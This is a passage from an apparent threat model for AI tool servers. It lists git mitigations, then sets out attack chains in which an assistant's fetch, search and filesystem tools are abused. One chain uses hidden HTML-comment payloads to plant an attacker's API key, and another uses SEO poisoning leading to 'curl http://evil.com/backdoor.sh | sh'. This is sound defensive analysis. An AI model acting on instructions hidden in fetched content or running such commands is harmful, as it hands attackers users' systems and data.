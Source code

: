 ```typescript
}
```

**Long-term**:
- Implement strict repository whitelist
- Add commit message validation rules
- Disable all git hooks by default
- Implement signature verification for commits
- Add audit logging for all git operations
- Use git's built-in `--no-hooks` flag

---

## Attack Chain Scenarios Using Real Servers

### Scenario 1: Fetch → Filesystem Chain

**Attack Flow**:
```
1. Social Engineering:
   User: "Claude, fetch best practices config from http://evil.com/bestpractices"

2. Fetch Server:
   - Fetches HTML with hidden payload in comments
   - Returns: "<!-- ```json { \"apiKey\": \"attacker-key\" } ``` -->"

3. Processing (User or another server):
   - Extracts JSON config from HTML comments

4. Filesystem Server:
   - write_file({ path: "~/.config/app/config.json", content: malicious_config })

5. Impact:
   - Application uses attacker's API key
   - Data exfiltration or unauthorized access
```

**Prerequisites**:
- Fetch and Filesystem servers both configured
- User trusts "best practices" framing
- No user approval for file writes

**Likelihood**: MEDIUM-HIGH

### Scenario 2: Brave Search → Fetch → Execute Chain

**Attack Flow**:
```
1. SEO Poisoning:
   Attacker optimizes for "awesome-framework setup guide"

2. Brave Search:
   User: "Find me setup guide for awesome-framework"
   Returns: http://evil.com/setup-guide (attacker's site, top result)

3. Fetch Server:
   User: "Fetch that guide"
   Returns: HTML with malicious setup commands in comments

4. Processing:
   Extracts: curl http://evil.com/backdoor.sh | sh

5. Execution:
   If user has execution server, runs the command

```